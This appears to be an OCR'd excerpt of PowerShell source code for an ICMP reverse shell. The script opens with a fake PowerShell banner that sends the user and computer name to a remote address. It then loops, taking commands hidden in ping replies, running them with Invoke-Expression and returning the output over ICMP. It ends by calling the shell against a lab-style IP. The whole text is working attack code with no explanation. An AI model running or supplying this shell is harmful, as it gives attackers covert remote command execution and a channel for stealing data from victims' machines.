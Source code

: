 ```powershell
        $BufferSize = 128
    )
    $ICMPClient = New-Object System.Net.NetworkInformation.Ping
    $PingOptions = New-Object System.Net.NetworkInformation.PingOptions
    $PingOptions.DontFragment = $True
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '> ')
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
    while ($true)
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes('')
        $reply = $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions)
        if ($reply.Buffer)
        {
            $response = ([text.encoding]::ASCII).GetString($reply.Buffer)
            $result = (Invoke-Expression -Command $response 2>&1 | Out-String )
            $sendbytes = ([text.encoding]::ASCII).GetBytes($result)
            $index = [math]::floor($sendbytes.length/$BufferSize)
            $i = 0
            if ($sendbytes.length -gt $BufferSize)
            {
                while ($i -lt $index )
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..(($i+1)*$BufferSize-1)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                    $i +=1
                }
                $remainingindex = $sendbytes.Length % $BufferSize
                if ($remainingindex -ne 0)
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..($sendbytes.Length)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                }
            }
            else
            {
                $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes, $PingOptions) | Out-Null
            }
            $sendbytes = ([text.encoding]::ASCII).GetBytes("`nPS " + (Get-Location).Path + '> ')
            $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
        }
        else
        {
            Start-Sleep -Seconds $Delay
        }
    }
}
Invoke-PowerShellIcmp -IPAddress 10.10.16.10
```
